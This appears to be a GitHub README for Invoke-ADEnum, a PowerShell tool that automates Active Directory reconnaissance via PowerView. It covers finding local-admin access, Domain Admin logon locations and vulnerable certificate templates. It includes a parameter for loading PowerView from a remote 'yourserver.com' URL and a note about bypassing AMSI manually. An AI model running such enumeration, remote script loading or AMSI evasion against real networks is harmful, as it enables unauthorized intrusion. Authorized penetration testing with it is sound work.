# Invoke-ADEnum
Automate Active Directory Enumeration
Required Dependencies: PowerView

PARAMETERS:

-Domain <domain FQDN>           The Domain to enumerate for. If not specified, the tool will enumerate for all the domains it can find

-Server <DC FQDN or IP>         The DC to bind to (requires you specify a Domain)

-Output <path-on-disk>          Specify where to save the output from the tool (default is pwd)         -Output C:\Windows\Temp\Invoke-ADEnum.txt

-Exclude <domain FQDN>          Exclude one or more domains from enumeration                            -Exclude contoso.local,ad.example.org

-CustomURL <URL>                Specify the Server URL where you're hosting PowerView.ps1               -CustomURL http://yourserver.com/Tools/PowerView.ps1

-Local <path-on-disk>           Specify the local path to PowerView.ps1                                 -Local c:\Windows\Temp\PowerView.ps1


+++> NOTE: If you use -CustomURL or -Local parameters you'll have to bypass AMSI manually <+++


SWITCHES:

-TargetsOnly                    Show only Target Domains

-NoServers                      Do not enumerate for Servers

-Workstations                   Enumerate for Workstations

-NoUnsupportedOS                Do not enumerate for machines running unsupported OS

-DomainUsers                    Enumerate for Users

-Shares                         Enumerate for Shares

-FindLocalAdminAccess           Enumerate for Machines where the Current User is Local Admin

-DomainACLs                     Enumerate for Domain ACLs

-NoGPOs                         Do not enumerate for GPOs and Who can Modify/Link them

-MoreGPOs                       More enumeration leveraging GPOs

-NoLAPS                         Do not enumerate for LAPS GPO

-NoAppLocker                    Do not enumerate for AppLocker GPO

-NoVulnCertTemplates            Do not enumerate for Misconfigured Certificate Templates

-DomainOUs                      Enumerate for Organizational Units

-MoreOUs                        More enumeration leveraging Organizational Units

-FindDomainUserLocation         Enumerate for Machines where Domain Admins are Logged into

-AllGroups                      Enumerate for All Domain Groups

-Help                           Show the Help page


EXAMPLES:

```
Invoke-ADEnum
```
```
Invoke-ADEnum -TargetsOnly -Local C:\Users\m.seitz\Downloads\PowerView.ps1
```
```
Invoke-ADEnum -Domain contoso.local -Server DC01.contoso.local
```
```
Invoke-ADEnum -Output C:\Windows\Temp\Invoke-ADEnum.txt
```
```
Invoke-ADEnum -Exclude contoso.local,domain.local -NoVulnCertTemplates
```
```
Invoke-ADEnum -CustomURL http://yourserver.com/Tools/PowerView.ps1
```


FULL ENUMERATION: (may take a long time)
```
Invoke-ADEnum -Workstations -DomainUsers -Shares -FindLocalAdminAccess -DomainACLs -MoreGPOs -DomainOUs -MoreOUs -FindDomainUserLocation -AllGroups
```

![image](https://user-images.githubusercontent.com/61951374/236856792-c7c3f17d-a8a5-41d5-8c69-613fd15fd845.png)
